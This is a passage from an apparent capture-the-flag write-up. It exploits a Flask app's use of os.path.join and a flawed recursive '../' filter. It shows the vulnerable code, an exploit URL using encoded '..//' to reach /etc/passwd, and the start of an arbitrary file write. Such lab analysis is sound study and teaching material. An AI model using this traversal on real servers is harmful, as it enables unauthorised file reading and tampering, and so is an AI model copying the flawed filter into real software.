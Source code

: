 ```python

@app.route('/uploads/<path:path>')
def send_report(path):
	path = get_file_name(path)
	return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```

we see if both cases os.path.join is used to generate paths for files on the server. Let's take a closer look.

[Documentation](https://docs.python.org/3/library/os.path.html#os.path.join)

>" If a component is an absolute path, all previous components are thrown away and joining continues from the absolute path component."

We control the last argument in both os.path.join, the name of the file for the upload_file function and the path after `upload/` in the send_report function. So this means if we can get an absolute path to a file into one of these arguments the preceding values should be discarded and only our provided path used. Let's do a basic proof of concept to be sure 

```python
>>> import os
>>> os.path.join(os.getcwd(), "public", "uploads", "/etc/passwd")
'/etc/passwd'
```

Great, but one problem for send_report, we cannot use an absolute path directly on the URL, but...

what if we use the replace functionality to generate a absolute path? let's recap on the recursive replace

```python
...SNIP

def get_file_name(unsafe_filename):
	return recursive_replace(unsafe_filename, "../", "")

... SNIP

def recursive_replace(search, replace_me, with_me):
	if replace_me not in search:
		return search
	return recursive_replace(search.replace(replace_me, with_me), replace_me, with_me)
```

"../" is replaced with "", or nothing so, `..//etc/passwd` replaced to `/etc/passwd` meaning we can provide a url like:

`http://10.10.11.164/uploads/%2e%2e%2f<absolute_path>`  - note: urlencode(../) = %2e%2e%2f

To get read access to any readable file on the server.

By the same reasoning as just stated, we can an arbitrary file write on the server by manipulating the `file_name` parameter, except this time we do not need to use the replace technique to get an absolute filename, we can provide it directly

I create a test file and write it somewhere publicly readable  to confirm the arbitrary file write
